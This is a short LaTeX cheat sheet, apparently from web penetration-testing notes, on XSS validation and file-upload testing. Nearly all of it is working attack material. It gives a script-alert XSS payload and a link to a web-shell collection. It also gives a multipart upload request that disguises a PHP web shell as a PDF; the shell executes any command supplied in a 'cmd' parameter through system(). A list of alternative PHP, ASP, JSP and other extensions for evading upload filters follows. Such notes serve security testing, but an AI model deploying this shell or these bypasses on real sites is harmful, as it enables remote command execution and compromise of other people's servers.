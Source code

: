 \documentclass[letterpaper,12pt]{extarticle}
\begin{document}
\subsubsection{Cross Site Scripting Validation}

\begin{verbatim}
	<script>javascript:alert(1)</script>
\end{verbatim}

\subsubsection{File upload feature check: Webshell upload test}

\begin{verbatim}
	https://github.com/TheBinitGhimire/Web-Shells
\end{verbatim}

\begin{verbatim}
	Content-Disposition: form-data; name="file"; filename="documento.php"
	Content-Type: application/pdf
	
	text/x-php
	
	%PDF-1.7
	<html>
	<body>
	<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
	<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
	<input type="SUBMIT" value="Execute">
	</form>
	<pre>
	<?php
	if(isset($_GET['cmd']))
	{
		system($_GET['cmd']);
	}
	?>
	<script>javacript:alert('XSS PAYLOAD')</script>
	</pre>
	</body>
	</html>
	
	Versión base 64
	
	text/x-php
	
	text/html
\end{verbatim}

Other useful extensions:

\begin{enumerate}
	\item PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc
	\item ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
	\item JSP: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action Coldfusion: .cfm, .cfml, .cfc, .dbm
	\item Flash: .swf
	\item Perl: .pl, .cgi
\end{enumerate}
\end{document}
